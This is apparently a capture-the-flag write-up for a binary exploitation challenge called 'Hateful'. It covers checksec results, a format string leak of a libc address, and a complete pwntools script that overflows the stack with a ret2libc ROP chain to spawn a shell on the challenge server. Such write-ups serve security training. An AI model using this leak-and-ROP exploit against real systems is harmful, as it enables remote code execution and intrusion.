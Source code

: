 # Challenge: Hateful

## Category: Pwn

## Challenge description
You hate your Boss??? You wanna just trash talk him but you are afraid he would fire you???
Dont worry we got you! send us the message you want to send him and we will take care of everything for you!

## Files given
- hateful: Main ELF file
- libc.so.6: Libc file
- ld-linux-x86-64.so.2: dynamic linker

## Examination
- First, lets checksec to see security mitigations of the file:
``` console
$ checksec --file=hateful        
[*]
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
- So we can exploit the stack, also PIE is disabled

## Solution
- First, to simulate the server environment, we can use patchelf to dynamically link the ELF to proper libc and linker version
- Reversing the binary, we can see a format string vulnerability, and we get a large payload to overflow the buffer
- Hence, without win() function, we need to take advantage from libc
- The format string vulnerability helps us leak arbitrary addresses on the stack. By using GDB retaddr, we can see that the 171-th argument on stack is a pointer to libc.
- After that, libc base address can be calculated as well as rop gadgets address 

## Exploit Script
```python
from pwn import *
host = '52.59.124.14'
port = 5020

libc = ELF('./libc.so.6')
binsh_offset = next(libc.search(b"/bin/sh\x00"))
rop = ROP(libc)
address_rdi = rop.rdi.address
address_system = libc.symbols['system']
address_ret = rop.ret.address
def solve():
        p = remote(host=host, port=port)
        print(p.recv().decode())
        p.sendline(b'yay')

        print(p.recv().decode())
        p.sendline(b"%171$llx")
        print(p.recvuntil(b'email provided: ').decode())
        address_leaked = int('0x' + p.recvuntil(b'\n')[:-1].decode(), 16)
        log.info('Leaked address: ' +  hex(address_leaked))
        libc_base = address_leaked - libc.symbols['__libc_start_main'] - 133
        log.info('Libc base address: ' + hex(libc_base))
        print(p.recv().decode())

        padding = b'A' * 1016
        payload = padding + p64(address_ret + libc_base) +  p64(address_rdi + libc_base) + p64(binsh_offset + libc_base) + p64(address_system + libc_base)
        p.sendline(payload)
        p.interactive() 
solve()



```